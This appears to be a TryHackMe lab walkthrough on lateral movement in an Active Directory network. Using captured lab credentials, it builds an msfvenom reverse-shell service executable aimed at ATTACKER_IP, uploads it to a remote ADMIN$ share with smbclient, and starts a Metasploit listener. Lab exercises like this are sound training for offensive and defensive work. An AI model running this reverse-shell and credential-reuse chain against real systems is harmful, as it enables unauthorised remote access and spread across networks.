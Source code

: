 ## Let's Get to Work! 

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you in Task 1 from http://distributor.za.tryhackme.com/creds. If you haven't done so yet, click on the link and get credentials now.  Once you have your credentials, connect to THMJMP2 via SSH:

```
ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

For this exercise, we will assume we have already captured some credentials with administrative access:

**User:** ZA.TRYHACKME.COM\t1_leonard.summers

**Password:** EZpass4ever

We'll show how to use those credentials to move laterally to THMIIS using `sc.exe`. Feel free to try the other methods, as they all should work against THMIIS.

While we have already shown how to use sc to create a user on a remote system (by using `net user`), we can also upload any binary we'd like to execute and associate it  with the created service. However, if we try to run a reverse shell  using this method, we will notice that the reverse shell disconnects  immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore  non-service executables will end up being killed by the service manager  almost immediately. Luckily for us, msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully  functional service executable, preventing it from getting killed.

To create a reverse shell, we can use the following command:

**Note:** Since you will be sharing the lab with others, you'll want to use a  different filename for your payload instead of "myservice.exe" to avoid  overwriting someone else's payload.

- **AttackBox **

```shell
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe  
```

We will then proceed to use t1_leonard.summers credentials to upload  our payload to the ADMIN$ share of THMIIS using smbclient from our  AttackBox:

- **AttackBox **

```shell
user@AttackBox$ smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
 putting file myservice.exe as \myservice.exe (0.0 kb/s) (average 0.0 kb/s)
```

Once our executable is uploaded, we will set up a listener on the attacker's machine to receive the reverse shell from `msfconsole`:  

- **AttackBox**

```shell
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4444
        
```
